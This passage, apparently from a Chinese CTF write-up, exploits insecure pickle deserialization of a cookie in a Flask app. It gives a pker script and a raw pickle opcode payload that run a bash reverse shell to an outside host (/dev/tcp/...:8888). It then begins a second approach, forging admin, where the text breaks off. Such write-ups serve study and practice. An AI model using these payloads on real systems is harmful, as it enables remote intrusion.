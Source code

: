 ```python
def login():
    resp = make_response("success") 
    session["password"]=request.values.get("password")
    resp.set_cookie("userdata", base64.b64encode(pickle.dumps(User(request.values.get("username"),request.values.get("password")),2)), max_age=3600)
    return resp

@app.route('/', methods=['GET', 'POST'])
def index():
    return open('source.txt',"r").read()

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5000)


```

在`/balancer`中利用`pickle.loads`的反序列化漏洞

#### 解法1

直接利用反序列化来getshell

这儿的`opcode`可以利用[pker工具](https://github.com/EddieIvan01/pker)来写

pker：

```
system=GLOBAL('os', 'system')
system('bash -c "bash -i >& /dev/tcp/192.168.11.21/8888 0>&1"')
return
```

然后：

```
python3 pker.py < test/crash
```

![image-20220807180548465](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/image-20220807180548465.png)

就可以生成opcode

```txt
payload=b'(cos\nsystem\nX\x36\x00\x00\x00bash -c "bash -i >& /dev/tcp/xx.xxx.xxx.xxx/8888 0>&1"o.'
print(base64.b64encode(payload))
```

成功上线

#### 解法2

还是构造opcode

但是根据源码提示，我们需要登录admin账号才能进入下一个挑战

因为app中导入了admin，所以直接可以通过app修改admin的内容

